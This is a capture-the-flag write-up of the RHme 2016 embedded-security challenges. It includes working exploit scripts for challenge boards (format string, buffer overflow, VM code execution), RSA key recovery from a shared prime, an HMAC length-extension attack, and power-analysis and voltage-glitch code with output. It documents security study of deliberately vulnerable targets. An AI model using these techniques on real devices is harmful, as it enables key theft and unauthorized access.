



# rhme-2016 write-up

## Table of contents
 * [Reverse]
   * [Jumpy](#jumpy)
   * [The Impostor](#impostor)
   * [FridgeJIT](#fridge)
 * [Exploit]
   * [Photo Manager](#photo)
   * [Animals](#animals)
   * [Casino](#casino)
   * [Weird Machine](#weird)
 * [Crypto]
   * [Key Server](#keyserver)
   * [Secure Filesystem](#securefs)
   * [Secure Filesystem v1.92r1](#securefs192r1)
 * [Fault Injection]
   * [Fiesta](#fiesta)
   * [Finetuning](#fine)
   * [Fiasco](#fiasco)
   * [Revenge](#revenge)
 * [Side Channel Analysis]
   * [Piece of Scake](#pas)
   * [Still Not Scary](#sns)
   * [Escalate](#escalate)
 * [Other]
   * [Twist Word](#twist)
   * [Emergency Transmitter](#et)
   * [Secret Sauce](#secret)
   * [Whack a mole](#wam)
   * [Hide & Seek](#hidenseek)

<a name="impostor"></a>
## The Impostor (Reverse - 300 pts)
This binary ask for a 16 bytes password.<br>
First, the FLAG string is load in the function @ 0x1300.<br>
Starting the reverse from 0x1300:<br>
&nbsp;&nbsp;&nbsp;&nbsp;-> 0xed0 (nothing interesting)<br>
&nbsp;&nbsp;&nbsp;&nbsp;-> 0xeb2 (nothing interesting)<br>
&nbsp;&nbsp;&nbsp;&nbsp;-> 0xa32 (!)<br>
The jump from 0xa32 is part of a big jump table which is called from an address
incremented by 2 at the begining of the function.<br>
Reversing this function, we can see that the base address is 0x0068.<br>
Looking at this address, the code doesn't look like an AVR code (until 0x05d4).<br>
With the help of radare2 and rasm2, we tried to desassemble this block with 
differents architectures until found something interesting (arm thumb).<br>
With the help of the Hopper decompiler, we discovered a XTEA algorithm used 
in order to encrypt 16 bytes.<br>
We just need to reverse this function with the following C code:

``` c
#include <stdio.h>
#include <stdint.h>

void tea_decrypt (uint32_t* buff, uint32_t* keys)
{
	uint32_t delta =  0xAB64E218;
	uint32_t sum = delta * 32;

	for (int i = 0; i < 32; i++) {
		buff[1] -= (((buff[0] << 4)^(buff[0] >> 5)) + buff[0]) ^ (sum + keys[(sum >> 11) & 3]);
		sum -= delta;
		buff[0] -= (((buff[1] << 4)^(buff[1] >> 5)) + buff[1]) ^ (sum + keys[sum & 3]);
	}
}

void main()
{
	uint32_t key[]  = {0x373D3943, 0x49A1C621, 0x80C6B0, 0x3C93C7B};
	uint32_t buff[] = {0xFC791D6B, 0x924E6C8F, 0x795F34A2, 0xEDAE901, 0};

	tea_decrypt (buff, key);
	tea_decrypt (&buff[2], key);
	printf("%s\n", buff);
}
```

The code was: 4rM_c0rT3xM0_4vR

<a name="fridge"></a>
## FridgeJIT (reverse - 400 pts)
Like every reverse, a password was asked.<br>
This time we have the binary and a memory dump.<br>
The strings displayed can't be found in the firmware, they shall be in the VM.<br>
First we need to find the VM opcodes to dissasemble the binary 
starting @ 0x2b8 in memory.dmp.<br>
Some instructions names are available (for the debug mode display)
in the firmware and in the memory (this part is a copy from the firmware).<br>

At first, we searched the code corresponding to the instruction NOT
because the firmware will (probably) translate this instruction with the "com"
AVR asm (one's complement).

with r2 => "/c com" gave us the choice between 3 functions.<br>
The most likely function is the first one around the address 0x13fe because it
executes every AVR instructions four time in a row (maybe a 32bits VM ?!).

To confirm, we tried with the XOR opcode:<br>
with r2 => "/c eor" gave us more possibilities..but only one is executing the
"eor" AVR instruction four times in a row and call the function @ 0xf8e like the
NOT opcode (it smells good).

The 0xf8e function allows you to know how many bytes this opcode takes by
pointing on 0x1c4+r24 (r24 is the opcode number set just before the function).<br>
eg NOP:1, PUSH:2, MOV:4, etc ...

Now, still with r2, we searched every functions around the call @ 0xf8e
```
:> /c 0xf8e
:> pd -1 @@ hit*
0x00001008      83e0           ldi r24, 0x03
0x00001098      84e0           ldi r24, 0x04
0x00001138      85e0           ldi r24, 0x05
0x000011ba      88e0           ldi r24, 0x08
0x0000123c      89e0           ldi r24, 0x09
0x000012ba      8ae0           ldi r24, 0x0a
0x000013ae      8ce0           ldi r24, 0x0c
0x0000140e      8de0           ldi r24, 0x0d
... etc
```
It seems that we found the VM opcodes location.<br>
But before dissasembling the VM, we need to know what opcode is emulated
by every functions.
```
..think..think..nyan..think..
```
And finally we wrote the script fridgejit_parser.py.<br>
After execution, you have (almost) a clear program and we can see were 
the strings displayed at the begining comes from.<br>
The interesting part is the following:
```
[0134] MOVL r5,  #018c
[0138] CALL  r5
[013a] JNZ #0184
[013d] MOVL r5,  #01b0
[0141] CALL  r5
[0143] JNZ #0184
[0146] MOVL r5,  #01cc
[014a] CALL  r5
[014c] JNZ #0184
[014f] MOVL r5,  #020c
[0153] CALL  r5
[0155] JNZ #0184
[0158] MOVL r5,  #0234
[015c] CALL  r5
[015e] JNZ #0184
[0161] MOVL r5,  #025c
[0165] CALL  r5
[0167] JNZ #0184
[016a] MOVL r5,  #0270
[016e] CALL  r5
[0170] JNZ #0184
[0173] MOVL r5,  #0288
[0177] CALL  r5
[0179] JNZ #0184
[017c] MOVL r5,  #00f8
[0180] CALL  r5
[0182] ?! 7c
[0183] ?! c2
[0184] MOVL r5,  #0050
[0188] CALL  r5
```
If every call are returning >0, then it will display "Correct" else "Incorrect!"<br>
=> We need to reverse every functions !
```python
def rol(data, shift, size=32):
    shift %= size
    remains = data >> (size - shift)
    body = (data << shift) - (remains << size )
    return (body + remains)

def ror(data, shift, size=32):
    shift %= size
    body = data >> shift
    remains = (data << (size - shift)) - (body << size)
    return (body + remains)

def disp(s,offset=0):
    raw = [s[i:i+2] for i in range(0, len(s), 2)][::-1]
    if offset:
        pad = " " * offset
    else:
        pad = ""
    out = ""
    for byte in raw:
        out += chr(int(byte,16))
    print pad+out.split()[0]

s = []
s.append("%08x" % (ror(0x5dd53c4f^0x3d6782a5, 0x11)))
s.append("%08x" % ((0x536d3b6d-0x2325dbf8) & 0xffffffff))
s.append("%08x" % ((0x5f<<24 | 0x54<<16 | 0x30<<8 | 0x47) & 0xffffffff))
s.append("%08x" % ((0x2059e2bd|0x536d0018)^(0xbde9+rol(0x74c,0x10))))
s.append("%08x" % (rol(0x9317eee5^(rol(0x3815cfb2,0x13)),0x13)))
s.append("%08x" % ((0xd419837a+0x9317eee5) & 0xffffffff))
s.append("%08x" % ((0xd419837a+0x9317eee5)-(rol(0xb2ef2c90,12))))
s.append("%06x" % (0x66d7db8e^0xb2ef2c90^0xd419837a^12))
i = 0
for chunk in s:
    disp(chunk, i)
    i += 2
```
if you execute this script, you will find the code (flag) : Y0u_G0T_1t_r1ght!

<a name="hidenseek"></a>
## Hide & Seek (Other - 400 pts)
This challenge is based on FridgeJIT.<br>
At startup, the loader is available to execute a custom VM.<br>
If there is no errors in the VM, the program will finish..and no flag :p<br>
First, we tried the previous VM (FridgeJIT), everything was working, great !<br>
Then we tried something different like "ee" and got an Oops message.<br>
After, the fridgeJIT console was displayed and we got an access to different
commands like execute, debug, load...<br>
The next step was to find a vulnerability in the VM in order to dump the RAM.<br>
We tried a lot of opcode combination in order to manipulate the stack (push,
pop, call, ret).<br>
A weird behavior appeared after the execution of call r0 with SP=0, we got a 
binary dump through the console by loading "aa" 47 times.<br>
After a lot of testing, we found that executing the following command allows you
to move the Loader pointer:
```
  SP = 0     ptr = x     call
"04600000"+"00"*(x - 6)+"1200"
note: x < 0x2bc (buffer size)
```
With the debug console, every opcode and parameters are translated though a
printf("%s",..) stuff and we can write everywhere with the previous exploit..<br>
so, if the NOP string address is modified (or PUSH, POP whatever), we can dump
all the RAM through the debug console.<br>
In order to dump the RAM, we set the loader pointer to 0x1e4, this is the 
address of the NOP string pointer.<br>
After the RAM dump analysis, the FLAG string appears in 2 places 0x269 and 0x700.

!!But!!<br>
Behind the "FLAG:" string @ 0x700, there are nothing (so sad..)<br>
To sum up, we can read RAM, write anywhere..the last thing we can do is to get code execution.<br>  
Then we fuzz everything in the range 0x100-0x1e4 to get something,
and after a lot of try, we got nothing..(so sad x2).<br>
The way to have an execution with this AVR is to watch every icall.<br>
With r2: 
```
:> /c icall
0x00000466   # 2: icall (can't exploit)
0x00001d5e   # 2: icall (\o/)
0x000027d6   # 2: icall (don't care)
```
The icall takes values in RAM with r31:r30 = \*0x16c:*0x16b according to the
value @ 0x16a.<br>
Then, we fuzz the value @ 0x16a in order to get something call!<br>
Result: the value 0x1e seems to be a good choice, because we got crash :)<br>
Then we tried many (random) addresses and we found a good setting with 0x1000
as parameter (payload = "1e0010" @ 0x16a).<br>
Then we rewrite the RAM until 0x1e4 to dump the string @ 0x700 to recover the
flag \o/.

```python
from rhme_serial import *

s = rhme_serial()
s.xfer("ee\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("04600000"+"00"*(0x16a-6)+"1200\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("1e0010\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("00000c02fb0c03f40704280805720806540d07a10d08c4080901090a44090b810900be090dfb090e2b0a0f6a0a10a90a11020b12ee0d135107141807153607165b0b17a40b18c10019de0b1afb0b1b180c1c500c1d770c1e950c00414243c4c5464748494a4b4c4d52139455569798595a5b5c1f4e4f50511d1e00000007\n")
print s.xfer("d\n")
s.close()
```

<a name="weird"></a>
## Weird Machine (Exploit - 400 pts)
This challenge is the continuation of hide&seek, but harder (normally).<br>
The behavior is exactly like hide&seek, you're beginning with the loader and you
can enter in debug mode by sending a wrong command.<br>
Before looking elsewhere, we tried the last exploit (h&s) and it didn't work..<br>
But it seems that the code execution still worked and the flag is still @ 0x700
in RAM..We must fuzz this !<br>
And .....nyan..... Kaboooom !!<br>
if you replace 0x1000 by 0x710, you got the flag :)

```python
from rhme_serial import *

s = rhme_serial()
s.xfer("ee\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("04600000"+"00"*(0x16a-6)+"1200\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("1e1007\n")
s.xfer("e\n")
s.xfer("\n")
s.xfer("l\n")
s.xfer("00000c02fb0c03f40704280805720806540d07a10d08c4080901090a44090b810900be090dfb090e2b0a0f6a0a10a90a11020b12ee0d135107141807153607165b0b17a40b18c10019de0b1afb0b1b180c1c500c1d770c1e950c00414243c4c5464748494a4b4c4d52139455569798595a5b5c1f4e4f50511d1e00000007\n")
print s.xfer("d\n")
s.close()
```

<a name="casino"></a>
## Casino (Exploit - 150 pts)
:> String format exploit

first you need free coupons by playing with the Spin [1]<br>
note: you have to repeat this a lot...<br>

Then, select the drink menu.<br>
You'll be asked to select a drink, this menu is only available with free coupons.<br>
This input is printed (if you entered aaa => aaa is displayed).<br>
I tried %s %s and got memory dump !!<br>

Then we tried many address and..Kabooooom ("\x17\x61 %s" as input works good)<br>
note: 0x6117 is for the fun (0x900 max)
``` python
from rhme_serial import *

s = rhme_serial()
tickets = 0
while not tickets:
    trash = s.xfer("4\n")
    trash = s.xfer("1\n")
    trash = s.xfer("S\n")
    trash = s.xfer("\r\n")
    if int(trash.split("left: ")[1][0]):
        tickets = 1
trash = s.xfer("3\n")
print s.xfer("\x17\x61 %s\n")
s.close()
```

<a name="photo"></a>
## Photo manager (Exploit - 100 pts)
Only 2 selections for this one, the second selection allows you to know how many<br>
bytes are available, the first is waiting his overflow with the length computed
before.<br>
This overflow is protected by canary (or a kind of..) which is a byte
corresponding to the length..<br>
Then we fuzz the following byte and we got the flag with 0xff :).

``` python
from rhme_serial import *

s = rhme_serial()
trash = s.xfer()
mem = s.xfer("2\n")
if len(mem):
    n = [int(a) for a in mem.split() if a.isdigit()]
    delta = n[0] - n[1] - 8
    print "mem: " + str(delta)
else:
    delta = 0

trash = s.xfer("1\n");
print s.xfer("\x30"*delta + chr(delta) + "\xff\n")
s.close()
```

<a name="animals"></a>
## Animals (Exploit - 200 pts)
You can select 1 of the 3 animals to display an ASCII art (cat, dog, mouse).<br>
First test, we sent dog+aaaaaaaaaa...(many times) until a memory dump.<br>
After analysing these bytes, we can understand that they correpond to a table
with different addresses (+ some parameters) used to display the picture.<br>
We can change the current selection by modifying the 2 bytes just after the 
overflow.<br>
Whatever, we can see & verify the following addresses associations:<br>
cat = 0x015e<br>
dog = 0x0158<br>
mouse = 0x0152<br>
??? =  0x014c (yeah)<br>
Replaced the last address is not enough, we need to set a kind of offset
defined by the next 2 bytes..<br>
After few tries, we got the following payload with python:
``` python
from rhme_serial import *

s = rhme_serial()
print s.xfer("dogaaaaaaaaaaaaaaaaa\x4c\x01\x6b\x03\r\n")
s.close()
```
and got the flag of course !

<a name="keyserver"></a>
## AVR keyserver

The purpose is to generate a RSA PKCS1_v1_5 SHA-1 signature of "admin" with one 
of the administrator's key:
+ Alice
+ Bob
+ Carl
+ David
+ Edward
+ Fleur
+ Gary

We have only the public modulus of the public key. In RSA public modulus, 
denoted $n$, is equal to the product of two prime numbers, denoted $p$ and $q$.
These two prime numbers are secret and once found the private can be recovered.

To generate a huge prime number, a randomly generated seed is used as a starting 
point to found the next prime. If this seed is poorly generated, collision may 
happen. Let's try if we have a collision on prime numbers.

$gcd(alice_{n}, bob_n) = 1$ which means no co factor. 
$alice_n = alice_p * alice_q$ and $bob_n = bob_p * bob_q$. 
All prime numbers are different.
This statement is true for all couples of public key ... except one!


$p = gcd(bob_n, gary_n) =$ `0xf3432ec95a2d8ec3e2dc6c52c1eb97d03601d6a0c1e89848fe
54f55b31a9fc35de1ce9210ff84fd79be293924de45320c86e5dc9d970b68079737a1bb2e34935`
 
So $gary_q = gary_n/p$ and we have gary_p and gary_q.
We could have bob's prime numbers as well.
 
Now we have to compute the signature of “admin” using a public exponent 
which is unknown. 
Public exponent are often small numbers: $3$, $5$, $17$, $257$ or $65537$.
We have to compute the associated private exponent, denoted $d$ which is equal 
to $e^{-1} \mod (p-1)(q-1)$, of all possible public exponent, denoted $e$, and 
compute the associated signature.

After multiple tries, the correct public exponent is `65537 = 0x10001`

The correct private key is 

`0x8499c5e0fe2848379d0eac9cfdbe21c5540104819a9
7156a4d1b19456bb682db77e26bff4ab857144a85f4214b8ca866ec0033a61edf865b349906782b9
c2fc4d57d6621f731ec7009bdeafe59256afdc8fd84f2fe7d70e9f84756f48008a15c20a5d38dacd
2bcd1b5f2b0b855b911e6a3a8cb9072b9f6f7847933aa260521a1`

The sha-1 hash of "admin" is `0xD033E22AE348AEB5660FC2140AEC35850C4DA997`

PKCS1 format is `0001 FFPADDING 00 ASN1_HASH HASH_VALUE`

After formating, the input to sign is equal to 

`0x0001fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
fffffffffffffffffffffffffff 00 3021300906052b0e03021a05000414 
d033e22ae348aeb5660fc2140aec35850c4da997`

The generate signature is equal to 

`0x80103B7FC74600B844BB73667C2C8F23AFA717E25E549756819A53BD875A79ECC80DBD9E415DF4
D4356FB623DA62A6388D0D1BF277DBAA6021C5E5FD51A2BA088BFDEE2CEA800E50155AEA1AD7A101
8EC7621E2DAC9D16CA6C1910EE3F0382E0A0ECA1124D6B357A8D669CBA6C0D24F384A5FC2890DB54
341C383289E32C727F`

`FLAG:e5bcdc1d710fca2194afb67c30e2f4e4`

<a name="securefs"></a>
## AVR Secure Filesystem

This challenge is presented as a secure filesystem with a token system to 
authenticate itself. Some examples are provided:
```
96103df3b928d9edc5a103d690639c94628824f5 | cat.txt
933d86ae930c9a5d6d3a334297d9e72852f05c57 | cat.txt:finances.csv
83f86c0ba1d2d5d60d055064256cd95a5ae6bb7d | cat.txt:finances.csv:joke.txt
ba2e8af09b57080549180a32ac1ff1dde4d30b14 | cat.txt:joke.txt
0b939251f4c781f43efef804ee8faec0212f1144 | finances.csv
4b0972ec7282ad9e991414d1845ceee546eac7a1 | finances.csv:joke.txt
715b21027dca61235e2663e59a9bdfb387ca7997 | joke.txt
```

From that we understand that a 160 bits value is used as authentication token.
We notice also that it is linked to the filename list we want to access.

The question to answer is what is the cryptographic function used to generate 
such tokens? What is the key? What is the data?

First, the token length gives a strong hint on which function has been used to 
generate the token. As a hash function, we do have the choice between SHA-1, 
RIPEMD-160, HAVAL-160, Tiger-160. To be honest, we strongly believed it was 
Tiger because we wanted to.

Second, what could be the secret key used to be authenticated to the file system.
How can we break a HMAC with a full length key? After long research and several 
tries we found a nice github repository with a tool exploiting length extension 
attack on hash function. It smells good : https://github.com/bwall/HashPump.
We actually don't care of the key value, only a guess on key length has to be 
done. Let's guess password length for 0 to 32 and try to hash passwd file by 
using a give token.

Th flag is found.

<a name="securefs192r1"></a>
## AVR Secure Filesystem v192.r1

This is next version of Secure Filesystem with longer token 2x 192 bits.
Some examples are provided:
```
897703036b2e18116b36353d92ac3dd978845fc99a735b8a |
dfd0f4a25b7d529e89ac030c2b681e93831e95a8186823b9 | cat.txt
897703036b2e18116b36353d92ac3dd978845fc99a735b8a |
f2bca35d472116dc6d5bebe96f1a3af249be78c63219a0dc | cat.txt:finances.csv
897703036b2e18116b36353d92ac3dd978845fc99a735b8a |
7eed666977d3861dbaefd16b2ed7dc5b639e51853ca6e7b3 | cat.txt:finances.csv:joke.txt
897703036b2e18116b36353d92ac3dd978845fc99a735b8a |
51d915246394ce976f8768cf3300087cb5b9958bbec30f9c | cat.txt:joke.txt
897703036b2e18116b36353d92ac3dd978845fc99a735b8a |
ae2a5a38b4d03f0103bce59874e41a0df19cb39b328b02fa | finances.csv
897703036b2e18116b36353d92ac3dd978845fc99a735b8a |
c66b5e48f5e600982724eca3804fb59b7b0f395a6e17e1ce | finances.csv:joke.txt
897703036b2e18116b36353d92ac3dd978845fc99a735b8a |
3a3a9b3cc5239fdf4572157296903a0237a4aaeeaa8f3d15 | joke.txt
```

We directly noticed the first 192 bits which is static, looks so weird to be 
innocent. Another point is the long processing time which feels like doing 
overkilling execution on a poor ATMega328p. The final hint is the title wich is
v192.r1. 
Gathering all those hints, we found out that it might be a ECDSA over a 
192 bits field. The static part is depending on a random used during ECDSA 
signature generation and PS3 hacks makes it famous. We are now confident!

Openssl gives us:
``` 
  secp192k1 : SECG curve over a 192 bit prime field
  prime192v1: NIST/X9.62/SECG curve over a 192 bit prime field
  prime192v2: X9.62 curve over a 192 bit prime field
  prime192v3: X9.62 curve over a 192 bit prime field
  brainpoolP192r1: RFC 5639 curve over a 192 bit prime field
  brainpoolP192t1: RFC 5639 curve over a 192 bit prime field
```

We have two candidates: brainpoolP192r1 and prime192v1 which has another name 
NIST P-192r1.

Let's try these curves in order to find the private scalar which then can be 
used to generate ECDSA for passwd file.

<a name="pas"></a>
## Piece Of SCAke

After several tries in acquering power traces from different point. We decided 
to develop our own PCB hosting the Riscure ATMega328p. It has been widely 
inspired from Colin O'Flynn board. It is natural as we wanted to plug it to a 
chipwhisperer lite. 

Here is the setup:

A front view





A back view




With this setup we do had clean curves and Piece Of SCAke 
has been a real piece of scake. We have collected 500 traces with random inputs.
Using numpy, we computed the correlation on these inputs and found a strong 
correlation which validated our setup. The leakage is here and the micro 
controller leaks a lot. The next and final step was to perform key byte guess 
attacking the ouput of AES Sbox for each byte. A strong correlation between 
hamming weight of AES Sbox output and traces validate the key byte guess. 
All key bytes can be retrieved as follow and the flag is the key itself.

<a name="sns"></a>
## Still not scary

We acquired 500 traces from the same setup. We noticed a desynchronization.

We used this synchronization function :

``` python
def min_dist_curve(curve,ref,shifting_window,pattern_window):                   
      distmin = sys.maxint                                                      
      for s in range(shifting_window[0],shifting_window[1]):                    
          dist = 0                                                              
          for p in range(pattern_window[0],pattern_window[1]):                  
              dist = dist + np.abs(ref[p] - curve[p+s])                         
          distmin = min(dist,distmin)                                           
          if distmin == dist:                                                   
              offset = s                                                        
      return offset,distmin  
```

After alignement we decided to change selection funtion from AES Sbox to AES 
AddRoundKey as we thought that masking has been implemented. We noticed that no 
jitter has been put around AddRoundKey function ... PERFECT.

Here is an overview after synchronization


Before 6500 we can see some fake AddRoundKey.
The last set of AddRoundKey are locate betwee 6500 and 8500.
After 8500 we can see the Sbox routines.

The script performing the attack looks like:

``` python
# Traces offset where ARK has been identified
tbegin = 6500                                                                   
tend =  8500                                                                    
                                                                                
byte = 0                                                                        
found = 0                                                                      
# Buffer containing the retrieved key
key = []                                                                        
# Key space length 
knumber = 256      
# Hypothesis drived by key guess                                               
hyp = np.zeros(shape=(256,len(textin)))                                        

# We fill hypothesis for all messages given a key guess 
for i in range(len(textin)):                                                    
    for kg in range(knumber):                                                   
        hyp[kg][i] = pysca.hw(kg^textin[i][byte])                               

# We go through with traces point per point            
t = tbegin                                                                      
while t < tend:                                                                 
    # Observation array containing all traces at time t
    obs = [] 
    for i in range(len(textin)):                                                
        obs.append(synctracedata[i][t])
    
    # We test all possible key and compute a correlation
    for kg in range(knumber):                    

	# Correlation coefficient is included in [-1;1]
	# Our setup have a reversed the power comsumption maybe to due a switch
	# Nevermind the correlation is negative, an absolute value can be taken
	# but it will bring couple of fake correlation

        if (np.corrcoef(hyp[kg],obs)[0][1] < -0.7):                             
            if not found:                                                       
                print byte, t, hex(kg)                                          
                key.append(kg)                                                  
                found = 1                                                       
                break                                                           
        if found and (np.abs(np.corrcoef(hyp[kg],obs)[0][1]) < 0.7):            
            found = 0                                                           
            byte = byte + 1                                                    
    t = t + 1                                                                   

``` 

The attack retrieved all key bytes with some ambiguity. We had a plaintext and 
a ciphertext. So we bruteforced key bytes which were ambiguous. 
The good key has been then recovered.

<a name="escalate"></a>
## Escalate

For this challenge, the exact same process has been applied. The jitter has been 
put between each sbox computation. It seems that a random number generation is 
executed at the beginning. But it doesn't matter, Simple Power Analysis reveals 
that the AddRoundKey is clean and unchanged. The hard work has been done on the 
synchronization were a wide window has been set to look after points to be 
synchronized.

<a name="fiasco"></a>
## Fiasco

Despite the discouragement from eletronic guys of the team I have decide to go 
for my VCC glitch setup ;)

We removed all capacitors located in the board and powered the arduino by an 
external power supply at 4.5V.

In order to perform the glitch we used an HydraBus with a glitch time as input.
We connected an HydraBus gpio pin to a mosfet to drive the current from 1 to 0 
and from 0 to 1 quickly. 

The piece of code is here below:

``` c
void glitch_n(uint32_t port_trigger, int pin_trigger, uint32_t port_, int pin_, 
	      uint32_t glitch_length, uint32_t glitch, uint32_t * glitch_offset)
{

        uint32_t t;
        t = bsp_gpio_pin_read(port_trigger,pin_trigger);
        while(t == bsp_gpio_pin_read(port_trigger,pin_trigger));

        t = 0;
        // Loop on glitchs
        while(t < glitch)
        {
                // Delay the glitch
                wait_nbcycles(glitch_offset[t++]);

                // Perform the glitch during glitch_length
                clr(port_,pin_);
                wait_nbcycles(glitch_length);
                set(port_,pin_);
        }

}
```

We do have a trigger that we connected to arduino's TX. In this setup,
the glitch_length has been set to 100.

The calibration of the glitch has been performed on easyfi.hex. And then we ran
this script to seek after a successful fault injection:
``` python
while(1):                                                                       
    # Setup Hydra to glitch VCC                                                 
    hydracon.flush()                                                            
    hydracon.write(glitch_cmd_ + "\n")                                          
    time.sleep(0.3)                                                             
    rhmecon.write("\r\n")                                                       
    rr = rhmecon.read_all()                                                     
    result.write(glitch_cmd_ + "\n")                                            
    result.write(rr)                                                            
    result.flush()                                                              
    print rr                                                                    
    print "glitch done"                                                         
                                                                                
    glitch_cmd_ = glitch_cmd                                                    
    for i in range(len(offsets)):                                               
        glitch_cmd_ = glitch_cmd_ + " offsets " + str(int(offsets[i]) + int(steps[i]))
        offsets[i] = str(int(offsets[i]) + int(steps[i]))
    print glitch_cmd_                                    
    if ("flag" in rr):                                   
        end_of_prgm() 

```
And here is the output obtained:

```
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191000
Good try, cheater!^M
Chip locked^M
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191100
Good try, cheater!^M
Chip locked^M
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191200
Good try, cheater!^M
Chip locked^M
Please write your password: gpio glitch trigger PB0 pin PC15 length 100 offsets 191300
Chip unlocked^M
Your flag is: 02ab16ab3729fb2c2ec313e4669d319egpio glitch trigger PB0 pin PC15 length 100 offsets 191400
```


